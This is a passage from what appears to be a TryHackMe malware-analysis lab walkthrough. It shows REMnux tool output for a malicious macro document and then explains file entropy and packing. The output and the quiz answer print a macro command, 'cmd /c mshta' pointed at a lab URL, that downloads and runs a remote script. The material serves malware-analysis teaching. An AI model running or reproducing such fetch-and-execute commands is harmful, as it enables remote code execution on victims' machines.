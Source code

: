 ```
| Execute Command      | cmd /c mshta http://tryha | Shell function |
|                      | ckme.com/notac2cserver.sh |                |
+----------------------+---------------------------+----------------+

INFO     Found 7 possible IOCs. Stripping duplicates...
VBA Builtins Called: ['Shell']

Finished analyzing Taxes2020.doc .

```


What is the URL the Macro in "Taxes2020.doc" would try to launch?

`http://tryhackme.com/notac2cserver.sh`

###  5. I Hope You Packed Your Bags 

REMnux® is a Linux toolkit for reverse-engineering and analyzing malicious software. 
But first: Entropy 101

There's a reason why I've waited until now to discuss file entropy in the malware series.

REMnux provides a nice range of command-line tools that allow for bulk or semi-automated classification and static analysis. File entropy is very indicative of the suspiciousness of a file and is a prominent characteristic that these tools look for within a Portable Executable (PE).

At it's very simplest, file entropy is a rating that scores how random the data within a PE file is. With a scale of 0 to 8. 0 meaning the less "randomness" of the data in the file, where a scoring towards 8 indicates this data is more "random".

For example, files that are encrypted will have a very high entropy score. Where files that have large chunks of the same data such as "1's" will have a low entropy score.

Okay...so?

Malware authors use techniques such as encryption or packing (we'll come onto this next) to obfuscate their code and to attempt to bypass anti-virus. Because of this, these files will have high entropy. If an analyst had 1,000 files, they could rank the files by their entropy scoring, of course, the files with the higher entropy should be analysed first.

![](https://i.imgur.com/4lgx8FM.png)

Whereas however, this file would have a high entropy because there's no pattern to the data - it's a lot more random in comparison.

![](https://i.imgur.com/kX0JcNy.png)

Packing and Unpacking

I briefly discussed this in my   MAL: Introductory room, but that doesn't do this topic justice.

We'll start with a bit of theory (so bare with me here) on how packing works and why it's used. Packer's use an executable as a source and output's it to another executable. This executable will have had some modifications made depending on the packer. For example, the new executable could be compressed and/or obfuscated by using mathematics.

